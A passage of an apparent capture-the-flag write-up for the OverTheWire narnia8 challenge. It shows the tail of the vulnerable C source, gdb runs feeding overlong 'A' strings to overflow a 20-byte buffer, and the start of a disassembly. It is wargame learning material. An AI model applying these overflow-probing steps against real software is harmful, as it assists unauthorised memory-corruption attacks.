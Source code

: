 int main(int argc, char **argv){
>        
	if(argc > 1)       
		func(argv[1]);
	else    
	printf("%s argument\n", argv[0]);
>
	return 0;
}
>```
>
> It looks like the relationship between ```char *blah``` and ```char bok[20]``` is key here.  Let's mess around some more and see what we can get.
>
>
>```
# gdb narnia8
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /root/narnia8...(no debugging symbols found)...done.
(gdb) run $(python -c 'print "A"*19')
Starting program: /root/CTF/OverTheWire/narnia/narnia8 $(python -c 'print "A"*19')
AAAAAAAAAAAAAAAAAAA
[Inferior 1 (process 1961) exited normally]
>```
>
> Ok, running within the size of ```bok``` everything appears to be normal.  Let's try to overflow it.
>
>```
(gdb) run $(python -c 'print "A"*25')
Starting program: /root/CTF/OverTheWire/narnia/narnia8 $(python -c 'print "A"*25')
AAAAAAAAAAAAAAAAAAAAAG��
[Inferior 1 (process 1970) exited normally]
>```
>
> Hmmmm.  We didn't get a seg fault, but we got some weird characters added in with our ```A```.  Let's try a bit bigger.
>
>```
(gdb) run $(python -c 'print "A"*40')
Starting program: /root/CTF/OverTheWire/narnia/narnia8 $(python -c 'print "A"*40')
AAAAAAAAAAAAAAAAAAAAAG��
[Inferior 1 (process 1974) exited normally]
>```
>
> We definately are not seeing the full output.  Let's set find a good location to set a breakpoint and see if we can figure out what's going on.
>
>```asm
(gdb) disas func
Dump of assembler code for function func:
   0x0804842d <+0>:	push   %ebp
   0x0804842e <+1>:	mov    %esp,%ebp
   0x08048430 <+3>:	sub    $0x38,%esp